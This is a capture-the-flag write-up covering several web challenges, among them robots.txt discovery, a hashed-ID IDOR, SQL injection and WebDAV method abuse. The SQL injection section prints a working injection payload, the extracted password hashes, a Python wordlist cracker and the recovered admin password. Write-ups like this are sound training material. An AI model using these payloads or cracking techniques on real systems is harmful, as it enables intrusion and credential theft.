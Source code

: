 ### All about robots
On the giving web page, taking chall name as hint, if we go to *robots.txt end point, we see a disallowed html page. Going to that endpoint, we find the flag

### IDoor
Going to the webpage, we see the customer id is 11. Further when we see the url, the endpoint looks like an encoded string. SHA256 decoding the string gives us the value 11 that is equal to the
custoer id. With a bit of trial and error, by sha256 encoding different integers, we finally get a hit on 0, and the flag is obtained

### Hacker web store
We have been given a products page, a creation page and a passwords list. Wehn we try sql inputs in the creation page, we see the app is vulnerable to sql injection and the error message showed the structure of the insertion command. Using that we can craft a payload like:
```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```
Here lmit means only 1 row printed, and choosing different offsets to get all the users we get 3 users and their password hashes:
```
Joram : pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
James : pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
website_admin_account : pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```
We need to login using the admin account by cracking its password hash<br>
From a writeup, got this script:
```
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()
```
```
ntadmin1234 found password
```
We can login now with website_admin_account:ntadmin1234 and get our flag

### The Davinci code
Since the challenge mentions dav, if we look up , we find methods like propfind to give us files and directories <br>
Using propfind on the site, gives us a /the_secret_dav_inci_code endpoint<br>
using it again we get /flag.txt endpoint but we cant use it directly<br>
We need to move the file to /static using move method and then we get the flag<br>

### Thomas deverson
didnt understand completely yet

### Helpful desk
didnt understand completely yet
